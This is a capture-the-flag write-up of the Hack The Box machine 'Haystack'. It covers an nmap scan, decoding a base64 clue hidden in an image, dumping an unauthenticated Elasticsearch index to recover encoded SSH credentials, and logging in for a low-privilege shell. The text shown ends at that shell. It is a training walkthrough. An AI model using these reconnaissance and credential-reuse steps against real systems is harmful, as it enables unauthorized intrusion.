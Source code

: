# Haystack (HACK THE BOX)

Hey Guys, Today we will be doing Haystack from HackTheBox
<br/>
<<logo.png>>
<br/>

## NMAP Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.115 -Pn -v
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 02:21 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 02:21
Completed Parallel DNS resolution of 1 host. at 02:21, 0.01s elapsed
Initiating Connect Scan at 02:21
Scanning 10.10.10.115 [1000 ports]
Discovered open port 22/tcp on 10.10.10.115
Discovered open port 80/tcp on 10.10.10.115
Discovered open port 9200/tcp on 10.10.10.115
Completed Connect Scan at 02:21, 8.14s elapsed (1000 total ports)
Initiating Service scan at 02:21
Scanning 3 services on 10.10.10.115
Completed Service scan at 02:22, 11.56s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.115.
Initiating NSE at 02:22
Completed NSE at 02:22, 0.81s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Nmap scan report for 10.10.10.115
Host is up (0.18s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    nginx 1.12.2
9200/tcp open  http    nginx 1.12.2

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.92 seconds
```
We have 3 services running so let's start enumerating the port 80 first...

## Webserver Enumeration
<br/>
<selection 007>
<br/>
So we have a image only so let's download it and analyse it first...

#### Clues in image

We did strings on the image and find a base64 in it
```
[sarthak@sarthak haystack]$ strings needle.jpg | tail -5
#=pMr
BN2I
,'*'
I$f2/<-iy
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
```
which decodes to this:-
```
[sarthak@sarthak haystack]$ echo "bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==" | base64 -d

la aguja en el pajar es "clave"
```
So after a quick google i found that clave means key but we will just keep it as currently it doesn't make any sense

## Enumeration of Elastic-Search

On port 9200 Elastic Search is running so let's quickly find out all the indices and their contents for that i used [this](https://www.bmc.com/blogs/elasticsearch-commands/) cheatsheet..

<br/>
<selection 008>
<br/>
We got 3 indices so from which ```.kibana``` is the default of elastic search so we will enumerate b/w  ```bank``` and ```quotes``` 

### Finding the "Key"

Let's see all the content of ```quotes``` index first using ```http://10.10.10.115:9200/quotes/_search/?size=1000```

<br/>
<selection 009>
<br/>
We got this data and from here if we search the key or *clave* in spanish we will find 2 strings...

```
"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}
```
So we can see let's decode the base64 and we'll see what we get...
```
user: security
pass: spanish.is.key
```

## Low priv shell

we used this creds to login to ssh 
```
[sarthak@sarthak haystack]$ ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password: 
Last login: Thu Jul  4 12:28:57 2019 from 10.10.14.6
[security@haystack ~]$ id
uid=1000(security) gid=1000(security) grupos=1000(security) contexto=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[security@haystack ~]$ 
```

